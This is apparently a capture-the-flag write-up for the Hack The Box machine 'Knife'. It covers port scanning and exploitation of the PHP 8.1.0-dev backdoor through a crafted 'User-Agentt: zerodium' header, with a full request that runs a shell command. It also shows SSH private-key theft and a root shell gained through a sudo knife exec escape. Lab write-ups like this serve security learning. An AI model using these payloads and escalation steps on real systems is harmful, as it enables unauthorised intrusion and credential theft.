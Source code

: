 https://app.hackthebox.com/machines/347

## Knife - Explore and nmapping

Starting with nmap to see what's runnng on the server:
```bat
sudo nmap -p- --min-rate 10000 -oA knife -v 10.10.10.242
```


While the nmap is running we can take a look and see if any website is running on the default port.
![website](https://is-going-to-rick-roll.me/1637881484.png)
So the website is a static page with one page (landing page)
no forms or anything special/suspicious.

Now let's check the nmap results
![nmap result](https://is-going-to-rick-roll.me/1637881600.png)
<br>
as we can see we have two ports open:
* 22 - TCP SSH
* 80 - TCP HTTP

sicne we have two options I'll go and investigate the website.
Opening burp suite and sniffing the GET for the index page returns us nothing special
![burp results](https://is-going-to-rick-roll.me/1637881755.png)
At first glance, it might look like a normal website nothing exciting.
But (as a PHP fanboy) i saw something that is really rememberable.
the X-Powerd-By line shows us that it runs PHP 8.1.0 DEVELOPMENT VERSION (which includes a backdoor)

(You can read more about this vulnerability that was released and approved for a few hours in the main repo at: https://rioasmara.com/2021/10/23/supply-chain-attack-php-8-1-0-dev-backdoor/)

After reading a bit more about this vulnerability I can understand how to run RCE.




## Using the vulnerabilities we found


So, after we found RCE in the website we cna be sure that this is the main vulnerability that will get give us the credentials we need for the SSH connection and etc.

By replacing the "User-Agent" name with "User-Agentt" we baypass the backdoor check and now we'll be able to execute code, by giving the value zerodium followed by the command we want to run.
For testing we'll try to echo "kekw".
![RCE POC](https://is-going-to-rick-roll.me/1637882393.png)
as you can see in the screenshot from Burp Suite the RCE worked and we managed to execute code.




## First Flag, owning user.
Most of the time people save flags in txt files, so because it was 1:25 AM at the time i did the first thing that came up to my mine.

```xml
GET /index.php HTTP/1.1

Host: 10.10.10.242

User-Agentt: zerodiumsystem('find . -name *.txt');

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Connection: close

Upgrade-Insecure-Requests: 1
```

response: ![](https://is-going-to-rick-roll.me/1637882832.png)
<br>

and here we go, inside the first file it returned we have the user flag.
we can use the RCE in order to print it (:

![back-door in PHP](https://is-going-to-rick-roll.me/1637882978.png)

<br>

## Owning the system - SSH

After a doing a small resarch I could found a packege that will help us getting into the server using the RCE.

(You can see more about it in: https://github.com/flast101/php-8.1.0-dev-backdoor-rce)

![RCE backdoor](https://is-going-to-rick-roll.me/1637920603.png)

using the backdoor_php_8.1.0-dev.py script we can accsess now to the server.

we are logged as james.

This user has no special permission.
By running <code>sudo -l</code> I can see we can run only one thing "(root) NOPASSWD: /usr/bin/knife"


##### Getting into SSH
On the sell that the backdoor opend us we can see that it uses SSH keys to log-in.
My first thought was to copy the private key to my machine and try to log in with that.


```bat
cat /home/james/.ssh/id_rsa```
```
![Private SSH key](https://is-going-to-rick-roll.me/1637927299.png)
(save this on your machine)<br>


Before trying to make the ssh connection with the key that we just found we have to make sure that the public key is inside the authorized_keys file.

```bat
cat /home/james/.ssh/authorized_keys
```

And it returned nothing, so we'll have to add the public kay by rinning 
```bat
cat home/james/.ssh/id_rsa.pub >> home/james/.ssh/authorized_keys
```

Now we can connect to the server via SSH
```bat
ssh -i id_rsa james@10.10.10.242
```
and we're inside!

![SSH connection with the KEY](https://is-going-to-rick-roll.me/1637928878.png)

<br><br>

##### Finding the system flag



Now, when we alrady gain accsess into the server via ssh we can look and see what files and what other things that we didn't saw we have.

About files i found nothing.
running <code>sudo -l</code> returned me
![sudo hint](https://is-going-to-rick-roll.me/1637929088.png)
In a first look you'll be confusd but after a short google search we can find this -> https://gtfobins.github.io/#knife

![gtfobins article](https://is-going-to-rick-roll.me/1637929195.png)

And this is how we are going to preform an privilege escalation attack, let's go back into the SSH and run 
```bat
sudo knife exec -E 'exec "/bin/sh"'


id
```

Now we are root.
![couldnt ask for mow hu](https://is-going-to-rick-roll.me/1637929307.png)

Let's go to the main user directory and see what we have.

![root.txt found](https://is-going-to-rick-roll.me/1637929371.png)


and we have found our last flag root.txt

![flag](https://is-going-to-rick-roll.me/1637929433.png)